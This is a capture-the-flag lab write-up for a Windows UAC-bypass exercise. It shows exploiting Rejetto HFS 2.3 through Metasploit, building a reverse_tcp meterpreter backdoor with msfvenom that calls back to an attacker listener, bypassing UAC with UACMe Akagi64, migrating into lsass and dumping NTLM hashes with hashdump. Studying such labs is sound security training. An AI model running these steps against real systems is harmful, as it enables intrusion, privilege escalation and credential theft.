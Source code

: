 # 🔬UAC Bypass

## Lab 1

> 🔬 [UAC Bypass: UACMe](https://attackdefense.com/challengedetailsnoauth?cid=2208)
>
> - Target IP: `10.4.19.119`
> - **UAC** bypass

- Some useful Win CMD commands

```bash
net user
net localgroup administrators
```

### Enumeration

```bash
nmap 10.4.19.119
```

```bash
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49175/tcp open  unknown
```

- Determine the version information of the web server on port `80`

```bash
nmap -sV -p 80 10.4.19.119
```

```bash
80/tcp open  http    HttpFileServer httpd 2.3
```

![nmap port 80](.gitbook/assets/image-20230317102551735.png)

- The version can be checked in a browser by opening the link
  - `http://10.4.19.119/`

### Exploitation

```bash
msfconsole -q
```

- Set the target IP as **GLOBAL RHOSTS variable**

```bash
setg RHOSTS 10.4.19.119
```

```bash
search hfs
use exploit/windows/http/rejetto_hfs_exec
options
# Check other options, TARGETURI, Payload options, if necessary
exploit
```

- [Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution](https://www.exploit-db.com/exploits/39161)
- [Metasploit rejetto_hfs_exec](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/)

![Metasploit rejetto_hfs_exec](.gitbook/assets/image-20230317103334601.png)

- Use `meterpreter` commands to gain more information about the target

```bash
getuid
	Server username: VICTIM\admin

sysinfo
    Computer       : VICTIM
    OS             : Windows 2012 R2 (6.3 Build 9600).
    Architecture   : x64
    System Language: en_US
    Domain         : WORKGROUP
    Logged On Users: 2
    Meterpreter    : x86/windows
```

- Migrate current x86 `meterpreter` session to a x64 process

```bash
pgrep explorer
migrate 2708
```

- Get `admin` user privileges

```bash
getprivs
    Enabled Process Privileges
    ==========================
    Name
    ----
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege
    SeShutdownPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
```

![](.gitbook/assets/image-20230317104309714.png)

- Verify if `admin` user is part of the local administrators group

```bash
shell
net user
net localgroup administrators

    Alias name   administrators
    Comment   Administrators have complete and unrestricted access to the computer/domain
    Members
    -------------------------------------------------------------------------------
    admin
    Administrator
# "admin" user is a local administrator
```

![](.gitbook/assets/image-20230317104340214.png)

- In order to run programs or tasks with elevated privileges, UAC bypass is necessary

### UAC Bypass & Privesc

- [UACMe Akagi](https://github.com/hfiref0x/UACME/tree/master/Source/Akagi) executable is already present on the attack machine

```bash
ls /root/Desktop/tools/UACME/
	Akagi64.exe
```

- Generate a `meterpreter` payload with `msfvenom`

```bash
ip -br -c a
	eth1@if162568  UP  10.10.4.2/24
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.4.2 LPORT=1234 -f exe > backdoor.exe
```

- Set up a new `msfconsole` session and set up a listener  with `multi/handler`, to receive the connection one the payload is executed on the target
  - set the payload used with `msfvenom` - the `windows/meterpreter/reverse_tcp` one
  - set the LHOST IP and LPORT of the attack machine, based on the `msfvenom` generated payload

```bash
msfconsole -q
```

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.4.2
set LPORT 1234
run
```

- The `reverse_tcp handler` is listening and ready to receive the connection from the malicious payload
- Head back in the `meterpreter` session already opened

```bash
cd C:\\
mkdir Temp
cd Temp
# or use
# cd C:\\Users\\admin\\AppData\\Local\\Temp

upload /root/backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe
```

![](.gitbook/assets/image-20230317110554477.png)

- UAC would prevent running `backdoor.exe`
- Run `Akagi64.exe` executable with UACMe methor 23

```bash
Akagi64.exe 23 C:\Temp\backdoor.exe
```

![Akagi64.exe](.gitbook/assets/image-20230317110948134.png)

- Elevated `meterpreter` session should be received on the listener

![Elevated Mterpreter session received](.gitbook/assets/image-20230317111043471.png)

- Migrate to a `NT AUTHORITY\SYSTEM` service

```bash
ps
ps -S lsass.exe
	692
migrate 692
```

![](.gitbook/assets/image-20230317111259217.png)

> 📌 **Privileges successfully elevated** by bypassing UAC on a system running Windows 2012 R2.

- Dump hashes to get the flag

```bash
hashdump

admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:659c8124523a634e0ba68e64bb1d822f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

<details>
<summary>Reveal Flag - admin NTLM Hash is: 🚩</summary>



`4d6583ed4cef81c2f2ac3c88fc5f3da6`

</details>

------

